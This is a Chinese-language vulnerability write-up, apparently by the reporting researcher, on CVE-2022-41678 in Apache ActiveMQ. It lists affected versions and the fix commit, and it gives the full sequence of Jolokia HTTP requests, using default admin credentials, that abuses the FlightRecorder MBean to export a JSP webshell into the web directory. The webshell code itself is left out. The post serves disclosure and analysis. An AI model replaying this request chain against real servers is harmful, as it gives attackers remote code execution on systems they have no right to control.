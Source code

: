 
# Apache ActiveMQ Jolokia 远程代码执行漏洞 (CVE-2022-41678) 分析

发表于 2023-11-29 更新于 2023-11-30 阅读次数：1018 Valine：

[↓↓↓](#valine-comments "valine")  
  
0  
  
[↑↑↑](#valine-comments "valine")

ActiveMQ 中，经过身份验证的用户默认情况下可以通过`/api/jolokia/`接口操作 MBean，其中 FlightRecorder 可以被用于写 Jsp WebShell，从而造成远程代码执行漏洞

FlightRecorder 存在于 Jdk 11+，具体类名：`jdk.management.jfr.FlightRecorderMXBeanImpl`

这个漏洞是我去年通过微步的 X 漏洞奖励计划提交的，今天看到已经被修复和公开了，就顺便写一下分析文章

## [](#%E5%BD%B1%E5%93%8D%E8%8C%83%E5%9B%B4 "影响范围")影响范围

-   Apache ActiveMQ before 5.16.6
-   Apache ActiveMQ 5.17.0 before 5.17.4
-   Apache ActiveMQ 5.18.0 unaffected
-   Apache ActiveMQ 6.0.0 unaffected

## [](#%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90 "漏洞分析")漏洞分析

### [](#%E5%8E%9F%E7%90%86 "原理")原理

漏洞入口在 [http://localhost:8161/api/jolokia/](http://localhost:8161/api/jolokia/) ，注意需要带上 Origin 头才可以访问

![image-20220730133512058](assets/1701679785-93fac394422c8b3c963125d727beb643.png)

主要问题出在 FlightRecorder 这个 Mbean，功能是记录内存，gc，调用栈等，漏洞用到的方法主要是以下几个

-   newRecording
    -   新建记录
-   setConfiguration
    -   更改配置
-   startRecording
    -   开始录制
-   stopRecording
    -   结束录制
-   copyTo
    -   导出录制文件

漏洞思路是通过 setConfiguration 修改配置，把一些键名改成 jsp 代码，记录的数据就会包含该 jsp 代码，录制完成后，通过 copyTo 导出到 web 目录即可

代码位置在 jdk.management.jfr.FlightRecorderMXBeanImpl#setConfiguration

### [](#%E6%8B%BF%E5%88%B0%E9%BB%98%E8%AE%A4%E9%85%8D%E7%BD%AE "拿到默认配置")拿到默认配置

调用 setPredefinedConfiguration，断点停下来后可以拿到默认的配置，先保存下来

```bash
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 155

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "setPredefinedConfiguration",
    "arguments": [1,"s"]
}
```

![image-20220730134739877](assets/1701679785-e3e848934504a0d405ae86b620fd6813.png)

### [](#%E6%96%B0%E5%BB%BA%E8%AE%B0%E5%BD%95 "新建记录")新建记录

```bash
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 136

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "newRecording",
    "arguments": []
}
```

记录的 id 为 1，后面 poc 都要使用这个 id

![image-20220730134939126](assets/1701679785-ae89e8615416fa7b1217b87e6adc75ad.png)

### [](#%E6%9B%B4%E6%94%B9%E9%85%8D%E7%BD%AE "更改配置")更改配置

将默认配置的如下处改为 jsp 代码，特殊字符需要实体编码

![image-20220730135355053](assets/1701679785-26e9b97b07627c0b134f409a933593f7.png)

如下 arguments 的第一位参数是记录 id，第二个参数是配置内容（很长，已省略）

```bash
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 31263

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "setConfiguration",
    "arguments": [1,"..."]
}
```

![image-20220730135515477](assets/1701679785-60d5c0b97d5827680ac04eac7d05b54b.png)

### [](#%E5%AF%BC%E5%87%BA%E5%BD%95%E5%88%B6%E5%88%B0web%E7%9B%AE%E5%BD%95 "导出录制到web目录")导出录制到 web 目录

开始录制

```bash
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 141

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "startRecording",
    "arguments": [1]
}
```

![image-20220730135551581](assets/1701679785-1909c97e70a96be862fbfca81852df94.png)

结束录制

```bash
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 138

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "stopRecording",
    "arguments": [1]
}
```

![image-20220730135637118](assets/1701679785-a54b726b28ad58c0cc4421d90e7a1c9a.png)

导出到 web 目录

```bash
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 159

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "copyTo",
    "arguments": [1,"../webapps/admin/test.jsp"]
}
```

![image-20220730135719277](assets/1701679785-3c58e3809a9aa2830b84a2a624f51134.png)

### [](#%E8%AE%BF%E9%97%AEwebshell "访问webshell")访问 webshell

[http://localhost:8161/admin/test.jsp](http://localhost:8161/admin/test.jsp)

![image-20231129175943787](assets/1701679785-71ae0e35fbe0d9db0cc0180757c5b884.png)

## [](#%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D "漏洞修复")漏洞修复

[https://github.com/apache/activemq/commit/6120169e5](https://github.com/apache/activemq/commit/6120169e5)

[\# 漏洞分析](https://l3yx.github.io/tags/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/) [\# ActiveMQ](https://l3yx.github.io/tags/ActiveMQ/) [\# Jolokia](https://l3yx.github.io/tags/Jolokia/)

[↓↓↓](https://l3yx.github.io/2023/09/28/Spring-Kafka-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-CVE-2023-34040-%E5%88%86%E6%9E%90/ "Spring-Kafka 反序列化漏洞(CVE-2023-34040)分析")  
  
Spring-Kafka 反序列化漏洞 (CVE-2023-34040) 分析  
  
[↑↑↑](https://l3yx.github.io/2023/09/28/Spring-Kafka-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-CVE-2023-34040-%E5%88%86%E6%9E%90/ "Spring-Kafka 反序列化漏洞(CVE-2023-34040)分析")
